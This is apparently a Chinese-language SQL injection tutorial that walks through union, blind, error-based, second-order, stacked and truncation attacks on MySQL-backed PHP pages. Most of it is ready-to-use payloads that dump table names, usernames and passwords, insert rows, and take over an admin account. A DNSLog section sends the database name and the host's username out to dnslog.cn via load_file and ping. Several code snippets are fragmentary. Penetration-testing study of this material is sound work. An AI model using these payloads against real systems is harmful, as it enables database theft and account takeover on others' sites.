SQL注入总结
sql的注入可以分为数字类型，字符类型。
方法1： 首先我们可以使用(转义字符)来判断SQL注入的闭合方式。 原理，当闭合字符遇到转义字符时，会被转义，那么没有闭合符的语句就不完整了，就会报错，通过报错信息我们就可以推断出闭合符。
1 分析报错信息：看\斜杠后面跟着的字符，是什么字符，它的闭合字符就是什么，若是没有，就为数字型。
方法2：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 首先尝试：
1 2 3 4 5 6 7 8 9 判断是否存在注入点
0x01 什么是SQLI
所谓SQL注入就是用户在能够控制SQL查询、更新、插入、删除等语句的参数的情况下，攻击者通过构造特殊的输入字符串使后端程序错误地识别SQL查询语句中的代码与数据部分从而导致数据库管理系统输出了非预期的结果的一种行为。
SQL注入本质 上来讲就是拼接字符串，通过输入额外的信息破坏外后端脚本原有的查询语句结构，从而达成注入的目的。
攻击者构造的查询参数在SQL语句中没有被当作一个字符串对待，而是具有了实际的功能特性，这是PHP的语法决定的，它只是简单地将用户的输入与后端预定义的语句做了一个拼接，将拼接的结果整体作为一条SQL的查询语句。正是这个特性导致了SQL注入的产生.
0x02 sql注入的产生
注: web程序结构
三层架构 (3-tier architecture) 通常意义上就是将整个业务应用划分为：
界面层（User Interface layer）
业务逻辑层（Business Logic Layer）
数据访问层（Data access layer）

用户能够直接使用的都是在表示层，在表示层输入自己要访问的内容，输入的内容传递到业务逻辑层进行处理，并将处理后的数据写入到数据库中。
同理需要请求的内容从数据库中查询出来后在业务逻辑层进行业务逻辑处理，之后呈现在表示层。
以上两步就是一个正常的请求和响应过程。
sql注入就是因为业务逻辑层没有做安全过滤，到时了从表示层传递过来的数据修改了正常的sql语句结构，从而达到了黑客自身的攻击目的。
2.1 字符型注入
当我们传入的参数在后端代码中被引号引起来的时候，我们称这种情况为字符型注入
看下面的例子（字符型注入）
1 $query="select name,age,gender from t_students where id='{$_GET['id']}'";
字符型注入最关键的是如何闭合SQL语句以及注释多余的代码。
注：数据库不同，字符串连接符不同， SQL server的连接符为“+”，Oracle连接符为“||”，MySQL连接符为空格
2.2 数字型注入
我们传入的参数在后端代码中没有被引起来的时候，我们称这种情况为数字型注入。当然之后参数类型为数字的时候，才存在区分数字型和字符型的情况
1 $query="select name,age,gender from t_students where id={$_GET['id']}";
此时我们传入的参数直接与id进行比较
进行sql注入的首要操作就是对注入类型进行判断，即对sql语句的闭合方式进行判断
0x03 按照请求方法分
3.1 GET型注入
所谓GET型注入，顾名思义，即注入点的参数是同通过GET请求发送到后端进行处理的。其又可以分为下面两种情形：
3.2 POST型注入
同理POST是不同于GET的另一种传参方式，大多出现在各种框处，比如登录框，查询框，和各种与数据库有交互的框。post注入和get注入基本没有本质的区别，除了在宽字节注入方面的操作有所区别，基本操作一致。
3.3 url注入
即注入点在url中。举个例子，现在有一个网页，实现了根据学生学号，来查询学生基本信息的功能，学生的id信息是通过GET方法传参发送到后端的，其请求的url如下
1 http://www.armandhe.com/query.php?id=20140379
后台处理代码如下
1 $query="select name,age,gender from t_students where id={$_GET['id']}";
在该例中，我们通过修改url中的id参数的值，来控制前端页面的显示结果。因为没有过滤的原因，我们输入的任何参数值都将被直接拼接到SQL查询语句中，那么我们就可以通过联合查询注入的方式进行注入。
3.4 请求头注入
简单理解就是注入点在请求头中。还是上面的例子，不过url中的参数被后端进行了严格的过滤，不存在任何的注入方法，但后端在进行处理的时候不仅仅是使用了查询语句，还对我们请求头中的user-agent字段在数据库中进行了查询，来防止恶意爬虫，但憨憨程序员却没有对用户的请求头做过滤。于是乎我们可以在请求头中构造恶意代码。同理，不只是user-agent字段，其他字段包括referer等，都可以进行注入，后端处理逻辑如下
1 2 3 4 5 6 7 $link = @mysqli_connect($host,$username,$password,$dbname,$port);
可以看到后端代码中并没有对user-agent字段做过滤，那么我们就可以直接开始构造注入语句
0x04 按照有无回显分
4.1 注入步骤
判断注入点是否存在
首先我们需要判断注入点是否存在，如果在页面的url中存在某些参数，比如下面这个URL中就存在一个id参数：http://xxxxx.xxx/?id=1
我们就可以尝试改变id的数值，将参数值+1或-1，然后查看页面展示的内容是否会变化，如果页面会发生变化，则我们就可以初步判断，这个id会带入数据库查询，查询后的内容会显示到页面中来。
猜测查询的SQL语句大致为：
select * from [表名] where id = 1;
常见注入点:
1 2 3 1.GET/POST/PUT/DELETE参数
接下来我们就可以进行测试，看看我们传入的参数是否会被带入数据库查询，测试的方法如下：(这里也称为sql脱库即拿出数据库里面的数据)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 添加单引号
在这里我们需要知道，我们构建union select语句时，当前面的查询语句为假，也就是数据不存在时，union select之后查询出的结果就会显示在页面中。这里我们可以通过在前面查询语句中添加 and 1=2 使语句变假，也可以直接将id传入一个负数，来使语句变假。
STEP1：判断闭合符 STEP2：判断列数 联合查询会将两条查询语句的查询结果拼接到一起返回！于是反映出联合查询需遵守的一个规则便是，两条查询语句的查询字段数必须相等，于是乎在利用联合查询进行注入的时候，我们第一步要做的就是判断判断后端代码中的SQL查询语句的字段数。
1 select id,username,passwd from t_user order by 4;
1 2 3 4 order by +数字
STEP 3：查数据库名
1 注意：（union 和union all 的区别 union all 显示重复的值，而union不显示重复的值，当union select 用不了的时候可以通过union all 来查询）
1 ?id=-1 union select 1,database(),1--+
注意id=-1,此处id的值必须是一个在数据库中id字段不存在的值，否则联合查询第一条语句的查询结果将占据显示位，我们需要的第二条查询语句的查询结果就不能正常显示到浏览器中。 STEP 4：查表名 假如上一步查询出来的数据库名为security
1 ?id=-1' union select 1,group_concat(table_name),1 from information_schema.tables where table_schem='security'--+
注意第二条查询语句我们payload插入位置的字段一定要在前端有回显，否则我们将不能查看到查询结果。STEP 5：查列名
1 ?id=-1' union select 1,group_concat(column_name),1 from information_schema.columns where table_schema=database() and table_name='user'--+
STEP 6：查数据
1 ?id=-1' and select 1,group_concat(concat(0x7e,username,0x7e,passwd,0x7e)),1 from user--+
4.2 有回显
4.2.1 联合查询注入
1 2 3 4 5 information_schema库简介
应用场景
1 2 3 4 5 6 7 8 9 10 11 12 13 UNION连续的几个查询的字段数一样且列的数据类型转换相同，就可以查询数据；
4.2.2 盲注
盲注又分为布尔盲注与时间盲注两种类型
布尔盲注
基本原理是：通过控制通过and连接起来的子句的布尔值，来控制页面的显示结果来判断and后子句的真实性,bool盲注适用于bool判断的结果能够回显在界面内容中的情况，例如界面文本的变化。举个例子
1 ?id=1' and substring(database(),1,1)='s'--+
根据and的特性，当and运算符左边的计算结果为真时会继续判断后边的运算结果，如果右边的结果也为真则整个语句为真，当右边的语句为假时，则整个语句为假；当and左边的运算结果为假时，则直接判断整个语句为假，举例如下
1 2 3 4 5 6 7 1==1 and 1==2 //false 1==1为true,继续判断1==2的结果为false，整体为false
利用and的这个特性，id=1恒为真的时候，and右边substring子句的执行结果将直接影响这个SQL查询语句的结果，即substring子句为真，整个查询语句为真，页面正常回显内容，当substring子句为假的时候，整个查询语句为假，页面不正常回显内容。
1 ?id=1' and substring(database(),1,2)='se'--+
直到数据库名的最后一个字符被找出来。可以看到这个过程耗时耗力，我们要对所有可能的大小写字母、数字、特殊字符进行枚举，所以可以考虑透过自动化脚本的方式来进行判断。这里对脚本的编写推荐适用python语言，其request可以很方便的构造请求。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 1 ' or length((select database()))=8# //判断数据库名字长度 1' or ascii (substr ((select database ()),1 ,1 ))=115 1 ' or (select count(table_name) from information_schema.tables where table_schema=database())=4# //判断表的个数 1' or ascii (substr ((select table_name from information_schema.tables where table_schema=database () limit 3 ,1 ),1 ,1 ))=117 1 ' or (select count(column_name) from information_schema.columns where table_name=' users')=14# //判断列的个数 1' or ascii (substr ((select column_name from information_schema.columns where table_name='users' limit 12 ,1 ),1 ,1 ))=117 1 ' or (select count(username) from users)=13# //判断用户名和密码的个数 1' or ascii (substr ((select username from users limit 0 ,1 ),1 ,1 ))=68
时间盲注
时间盲注与布尔盲注有异曲同工之妙，只不过判断语句正确与否的标志不再是查询结果有没有被正确得回显，而是网页的响应时间。看下面语句:
1 ?id=1' and if (length(database())<20,sleep(5),1)--+
上例中，通过length函数获取了当前数据库的长度并与20进行比较，如果数据库名长度小于20，那么则延时5秒向后端脚本程序回显查询结果，如果数据库名不小于20，则直接回显结果。延时5秒的结果表现在客户端就是当前浏览器tab的标题部分会一直转圈圈。然后通过二分法。即将上述语句中的20改为10继续测试，如果不小于10，则在将10修改为15，按照此规律我们逐渐紧逼找到当前数据库名的真正长度。数据库名的长度确认之后，我们就要开始获取数据库名的值了：
1 ?id=1' and if (substring(database(),1,1)='s',sleep(5),1)--+
通过上述布尔盲注中讲到的方法，最终获取到数据库名。当然上面的语句我们还有其他的变种，如：
1 2 3 4 5 6 7 8 9 10 11 ?id=1' and if (ascii(substring(database(),1,1))=67,sleep(5),1)--+ //通过ascii码来比较
要获取表明、字段名、数据只需将上面payload中的database()替换为联合查询注入中的payload即可，如要获取表名，则构造如下语句：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 ?id=1'and if(length((select database()))>9,sleep(5),1)--+ //长度
1、mid()函数
此函数为截取字符串一部分。MID(column_name,start[,length])
2、substr()函数
用法：substr(string string,num start,num length);
string为字符串；start为起始位置；length为长度。
注意：mysql中的start是从1开始的。
例：substr(database(),1,1)=‘a’
通过=右侧字母的改变和表达式的真假判断库名
3、left()函数
此函数用法：left(a,b)
从左侧截取 a 的前 b 位
例：left(database(),1)=‘a’
通过=右侧字母的改变和表达式的真假判断库名
4.2.3 报错注入
报错注入就是利用数据库的某些正常的机制，人为得制造错误，将查询得结果携带在报错信息中回显到客户端。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 什么场景下有用？if ($row )echo 'Your Login name:' .roe['username' ];else print_r (mysql_error ());
1 2 3 4 5 6 7 8 9 10 11 12 13 当执行的SQL语句出错时返回错误信息，在错误信息中返回数据库的内容，即可实现SQL注入。
updatexml注入
updatexml函数接受三个参数，第一个参数是一个xml格式的字符串，第二个参数是符合xpath语法规范的字符串，第三个参数是要替换成的字符串。该函数的功能就是从第一个xml字符串中通过xpath语法选择匹配的部分替换成第三个参数的内容。并且当xpath语法出现错误的时候，将会回显数据，于是我们将我们的查询语句放到第二个参数中，作为错误回显的一部分外带到客户端浏览器。比如需要获取库名，则构造如下语句
1 ?id=1' and updatexml(1,concat(0x7e,database()),1)--+ //and可以被替换为or,如果为or,则还有一处需要修改，请自行思考(我估计是改为-1即可)
注意，concat是必须的，0x7e也是必须的，否则将不会回显错误信息，0x7e可以被别的十六进制数代替，但是有限制的，亲们可以自行尝试。且0x7e位置上的数字转换后必须为字符型，concat只能连接字符串，不能连接数字。获取表名、列名、数据的方法参见前文描述，这里不再赘述。
该函数与updatexml很像，但他只接受两个参数，且其定义与updatexml一样。
1 ?id=1' and extractvalue(1,concat(0x7e,database()))--+ //and可以被替换为or,如果为or,则还有一处需要修改，请自行思考
主键重复报错
看下面的例子
1 ?id=1' or (select 1 from (select count(*),concat(database(),floor(rand(0)*2))alias_a from information_schema.tables group by alias_a)b)--+
1 2 3 4 5 group by子句能够根据一个或多个列对结果集进行分组
在上例中rand函数生成的随机数乘以2的范围就是0-2，那么再使用floor函数进行向下取整，其值就只能是0或者1。同时因为group by 的特性 使得其在进行分组的时候会对后面的字段进行两次运算，group by 在进行分组的时候，会生成一张虚拟表记录数据，那么假设一种情况，当group by进行第一次运算的时候，发现虚拟表中没有相同的数据，准备进行插入操作，但因为rand函数的随机性，导致在第二次运算的时候产生的结果在虚拟表中已经存在，那么在插入该数据的时候就会产生主键冲突，从而产生报错信息，将我们需要的数据通过报错信息外带。
1 ?id=1' or (select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 1,1),floor(rand(0)*2))alias_a from information_schema.tables group by alias_a)b)--+
可以总结出来一个模板
1 ?id=1' or (select 1 from (select count(*),concat((payload),floor(rand(0)*2)) from information_schema.tables group by alias_a)b)--+
只需将上面模板中的内容替换成为我们的查询payload即可,alias_a与b均是字段别名
几何函数注入
可以使用的几何函数
1 2 3 4 5 6 7 geometrycollection:存储任意集合图形的集合
payload:
1 2 3 4 5 6 7 8 9 10 11 12 select * from test where id=1 and mutilinestring((select*from(select * from (select user())a)b))) //构造语法都是这样。
只要上述函数中的参数不是集合形状数据，就会报错。有mysql版本限制。以上列表中基于geometric(集合函数)的报错注入在这个 commit 5caea4 中被修复，在5.5.x较后的版本中同样不再生效。
基于溢出的注入
~：按位取反（得到数据的二进制后，按位取反）
1 select * from mysql.user where id=1 and exp(~(select * from (select user())a));
~后的内容被取反后会得到一个很大的数，再做为自然对数的指数，得到的值一定会溢出，从而报错将查询结果显示出来.
基于exp函数的报错注入在MySQL 5.5.49后的版本已经不再生效，具体可以参考这个 commit 95825f 。
4.2.4 二次注入(二阶注入)
二阶注入是指已存在的用户输入的数据被存储到数据库中，在用户再次使用该数据的时候导致的注入，这种注入类型是很难通过工具扫描或者黑盒测试发现的，往往需要通过白盒测试才能发现。比如现在有一个网站提供了用户注册与修改密码的功能。在用户登录的时候，通过函数对用户的输入进行了转义，如
1 2 3 4 5 专有名词：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 $link = @mysqli_connect ($host ,$username ,$password ,$dbname ,$port );$username =mysql_real_escape_string ($_POST ['username' ]);$passwd =mysql_real_escape_string ($_POST ['passwd' ]);$repasswd =mysql_real_escape_string ($_POST ['repasswd' ]);if ($passwd ==$repasswd ){$query ="select * from t_user where username='{$username} ' and passwd=='{$passwd} '" ;$res =@mysqli_query ($link ,$query );if (mysqli_num_rows ($res )==1 ){else {die ('用户名或密码错误' )else {die ("两次输入密码不一致" )
可以看到在登录界面，用户名与密码被mysql_real_escape_string函数做了转义，那么我们输入的单引号或者双引号就失去了作用，于是我们不能通过简单一次注入获取数据。再看用户注册界面的代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 $link = @mysqli_connect ($host ,$username ,$password ,$dbname ,$port );$username =mysql_escape_string ($_POST ['username' ]);$passwd =mysql_escape_string ($_POST ['passwd' ]);$repasswd =mysql_escape_string ($_POST ['repasswd' ]);if ($passwd ==$repasswd ){$query ="select * from t_user where username='{$username} '" ;$res =@mysqli_query ($link ,$query );if (mysqli_num_rows ($res )!=0 ){else {$query ="insert into user values ('{$username} ','{$passwd} ')" ;$res =@mysqli_query ($link ,$query );if (mysqli_affected_rows=1 ){else {else {die ("两次输入密码不一致" );
可以看到注册界面的输入也被转义了，但是有一点，需要明确的是，经过msql_real_escape_string和addsashes转义的字符在插入到数据库中之后，会被解转义，不然我们注册的用户名就变了。利用这个特性我们就可以搞事情了。在用户修改密码时由这样的语句
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 $link = @mysqli_connect ($host ,$username ,$password ,$dbname ,$port );$username =mysql_escape_string ($_POST ['username' ]);$oldpasswd =mysql_escape_string ($_POST ['oldpasswd' ]);$newpasswd =mysql_escape_string ($_POST ['newpasswd' ]);$repasswd =mysql_escape_string ($_POST ['repasswd' ]);$query ="select * from t_user where username='{$username} ' and passwd='{$oldpasswd} '" ;$res =@mysqli_query ($link ,$query );if ($newpasswd ==$repasswd && mysqli_num_rows ($res )!=0 ){$query ="update t_user set passwd='{$newpasswd} ' where username='{$username} '" ;$res =@mysqli_query ($link ,$query );if (mysqli_affected_rows=1 ){else {else {die ("两次输入密码不一致或者用户名或者老密码输入错误" );
假如我们知道有一个用户名为admin的管理员账户，那么我们首先可以注册一个admin’#的账号，’#根据实际情况确定，密码为123456，然后我们正常登录到我们新注册的账号，跳转到修改密码的界面，然后输入用户名与密码之后点击确认，这时候后台的update语句变成了
1 $query ="update t_user set passwd=654321 where username='admin'#'" ;
所以这时候就修改了账户名为admin的密码，这时候我们就可以用我们的新密码直接登录管理员账户admin了。大家可以到sqli_labs靶场第24关进行试验。
4.2.5 堆叠注入
mysqli_multi_query()函数：
Stackedinjections:堆叠注入。从名词的含义就可以看到应该是一堆sql语句（多条）一起执行。而在真实的运用中也是这样的，我们知道在mysql中，主要是命令行中，每一条语句结尾加 ; 表示语句结束。这样我们就想到了是不是可以多句一起使用。这个叫做堆叠注入
在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql 语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而 unioninjection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的 ，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。
使用条件
mysqli_multi_query（）执行多条查询的函数——防止注入改成mysqli_query()函数
堆叠注入的使用条件十分有限，其可能受到API或者数据库引擎，又或者权限的限制只有当调用数据库函数支持执行多条sql语句时才能够使用，利用**mysqli_multi_query()**函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行，所以可以说堆叠注入的使用条件十分有限，一旦能够被使用，将可能对网站造成十分大的威胁。
我们就可以在普通注入的后面，写上一条任意的SQL语句，例如插入数据，或者删库。
1 2 3 4 5 6 7 8 9 10 ?id=-1 ' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ ?id=-1' union select 1 ,2 ,group_concat (column_name) from information_schema.columns where table_name='users' --+1 ' ;insert into users(id,username,password)values(115,' 1234 ',' 4567 '); ?id=-1' ;insert into users (id,username,password)values (100 ,'772211' ,'112277' );56 ，可以看到自己成功插入了密码用户名
4.2.6 小tip: mysql长字符截断
mysql中有一个环境变量配置sql_mode,定义了mysql应该支持的sql语法，数据校验等,可以通过以下方式查看当前数据库使用的sql_mode：

具体的参数解释见参考资料5：MySQL的sql_mode模式 ，mysql5.0版本以上支持了三种sql_mode模式，如下：

默认情况下，mysql选择使用的是严格模式，此时如果插入的数据超过限制长度，则会报错error(如果超出的长度是由空格引起的，可能只会警告warning，实际操作证明，三种模式下，如果插入的超出长度是由空格引起的，并不会报错，仅仅会警告，本节最后给出结果 ):
1 2 3 4 5 describe users;values (1 ,'admin' ,'123' );values (2 ,'admin ' ,'123' );values (3 ,'admin x' ,'1234' );

对于id=2的插入，可以查看其usernsme的长度,发现其长度为7:
1 select length (username) from users where id = 2 ;
下面重点讨论当sql_mode模式为ANSI时引起的长字符截断问题：
1 接下来依次创建table,插入数据，这里发现username='admin x’也插入成功了：
1 2 3 4 5 6 7 create table users (int (11 ) NOT NULL ,varchar (7 ) NOT NULL ,varchar (12 ) NOT NULL );values (1 ,'admin' ,123 );values (2 ,'admin ' ,1234 );values (3 ,'admin x' ,12345 );

观察一下各个用户的长度，可以发现id=2,id=3的username均被截断，长度都变成了7：
1 2 3 4 select *from users;length (username) from users where id =1 ;length (username) from users where id =2 ;length (username) from users where id =3 ;

如果此时选择username= 'admin’会出现下面情况：
1 select username from users where username = 'admin';
此时，我们只查询了用户名为admin的用户，但另外两个长度不一致的用户却出现，这会造成安全问题。假如，某个管理员的用户名就是admin,他采用下面的语句登录：
补充： 对于三种模式下的空格插入溢出，并不会报错，结果如下：
1 2 3 4 5 6 7 SET @@sql_mode=STRICT_TRANS_TABLES;values (4 ,'admin ' ,12345 );values (5 ,'admin x' ,12345 );values (6 ,'admin ' ,123456 );values (7 ,'admin x' ,123456 );

由此可见，预防长字符截断问题可能需要从其他地方入手，如账号由管理员分配并限制更改；对数据库内容加密，即使获取到相关信息也无法破解。
假设管理员的账号就是admin，那么我们就去注册一个admin 的用户.(PS:后面有哦很多空格，等待被截取掉就直接替换掉admin这个账号了)，也就是我们可以登录账户名为admin的账号了。
4.3无回显
4.3.1 DNS Log
我们在发起网络请求的时候，第一步就是解析域名，当域名被成功解析的时候，该域名解析结果将被域名服务器记录下来，我们利用的正是这一点，将我们想要的数据放在域名的下一级域中外带到域名服务器，通过查询域名服务器的日志，从而获得我们想要的数据，如我们使用www.dnslog.cn 这个网站来测试
ping命令测试：
点击获取子域名获取一个包含三级域名的域名给我们，这里我们使用ping命令做测试
1 ping %USERNAME%.4ap7wz.dnslog.cn
当ping通的时候，我们点击该网站的刷新记录就可以看到我测试主机的用户名ChinaArmand了。该注入方法适用于需要时间盲注、没有回显的注入场景。构造mysql语句如下
1 ?id=1' and (select load_file(concat('\\\\',(select database()),'.4ap7wz.dnslog.cn\\abc')))
在到www.dnslog.cn看看是不是获取到了我们的数据库名,我们可以看到上面的语句使用了\，这是windowsUNC路径的表示方法，所以在SQLI中DNSLog只适用于windows平台的服务器 。
1 2 3 4 5 load_file 受mysql配置文件中secure_file_priv选项的限制，
DNSlog 介绍
1 首先我们知道DNS是起ip与域名的解析的服务，通过ip可以解析到对应的域名。DNSlog就是储存在DNS上的域名相关的信息，它记录着你对域名或者IP的访问信息，也就是类似于日志文件，
DNSlog回显原理
首先了解一下多级域名的概念，我们知道因特网采用树状结构命名方法，按组织结构划分域是一个名字空间中一个被管理的划分，域可划分为子域，子域再可被划分为多级域名称为一级域名，二级域名，三级域名，从一个域名地址来从右到左依次是顶级域名，二级域名，三级域名,例如 gaobai.kxsy.com,
通俗的说就是我有个域名kxsy.work，我将域名设置对应的ip 2.2.2.2 上，这样当我向dns服务器发起kxsy.work的解析请求时，DNSlog中会记录下他给kxsy.work解析，解析值为2.2.2.2，而我们这个解析的记录的值就是我们要利用的地方,这个过程被记录下来就是DNSlog,
DNSlog 应用
1.sql布尔盲注、时间盲注，注入的效率低且线程高容易被waf拦截，又或者是目标站点没有回显可利用NDSlog
http://www.dnslog.cn
http://admin.dnslog.link
http://ceye.io
DNSlog回显注入条件
1.数据库root权限，
DNSlog-sql注入
1.注册一个dns解析服务，利用唯一标识符，以无回显sql注入为例
